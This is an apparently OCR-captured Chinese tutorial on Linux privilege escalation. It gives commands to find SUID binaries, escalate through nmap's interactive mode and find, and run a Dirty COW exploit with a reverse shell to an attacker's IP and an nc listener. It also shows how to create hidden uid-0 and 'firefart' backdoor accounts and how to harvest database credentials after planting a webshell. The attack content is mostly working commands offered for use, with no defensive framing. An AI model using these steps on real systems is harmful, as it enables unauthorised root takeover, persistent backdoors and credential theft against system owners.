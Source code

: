 首先在本地查找符合条件的文件，有以下三个命令
列出来的所有文件都是以root用户权限来执行的，接下来找到可以提权的文件
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
常用的可用于suid提权的文件
Nmap、Vim、find、Bash、More、Less、cp

nmap提权
Default
较旧版本的Nmap（2.02至5.21）带有交互模式，从而允许用户执行shell命令。因此可以使用交互式控制台来运行具有相同权限的shell。
方法一：
启动交互模式，使用nmap --interactive
!sh #执行之后将提供一个提权后的shell。
方法二：
Metasploit模块，也可以通过SUID Nmap二进制文件进行提权。
exploit/unix/local/setuid_nmap

find提权
Default
实用程序find用来在系统中查找文件。同时，它也有执行命令的能力。因此，如果配置为使用SUID权限运行，则可以通过find执行的命令都将以root身份去运行。

sudo提权
Default
sudo命令以系统管理者的身份执行指令，也就是说，经由 sudo 所执行的指令就好像是 root 亲自执行。
sudo 表示 “superuser do”。它允许已验证的用户以其他用户的身份来运行命令。其他用户可以是普通用户或者超级用户。然而，大部分时候我们用它来以提升的权限来运行命令。

linux内核提权示例
Default
1.使用nc或lcx反弹到攻击者的电脑
2.使用 uname –a 查看Linux 版本内核等系统信息
3.在exploit库中寻找相应系统版本和内核的漏洞利用模块。（www.exploit-db.com）
4.上传exp到目标服务器中，chmod 777赋予exp权限，需要进行编译的先进行编译。
5.提权后便可以添加ssh用户 （useradd -o -u 0 -g 0 username）
通过webshell上传ft.pl，为了等下的反弹shell
 
系统信息收集Uname -a显示的版本内核为（2.6.24>2.6.22），可能存在脏牛漏洞
 
ft.pl文件反弹shell
./ft.pl 攻击者ip 4444
Kali开启监听
nc -lvvp 4444
 
编译dirty.c文件，生成一个可执行的EXP，
qcc -pthread dirty.c -o dirty -lcrypt
运行./dirty su123（密码）
 
新生成的管理员用户firefart把原来的root用户替换掉了（root--->firefart）
 
可以通过ssh连接
生成账号firefart，密码su123

数据库提权思路

数据库提权是指：通过执行数据库语句、数据库函数等方式提升服务器用户的权限。
首先我们要先有能力登入数据库，所以通常我们拿到webshell之后要去网站目录去找数据库连接文件，常在形如xxx.conf或conf.xxx文件中。
Default
数据库获取网站数据库的账号和密码
--通过读取一些数据库配置文件
数据库配置文件：命令规则（data、sql、inc、config、conn、database等）
--通过mysql数据库的user表
数据库安装文件：安装目录下data/mysql/user.myd
frm:描述表结构文件，字段长度
myi：索引信息
myd：数据库信息文件，存储数据信息
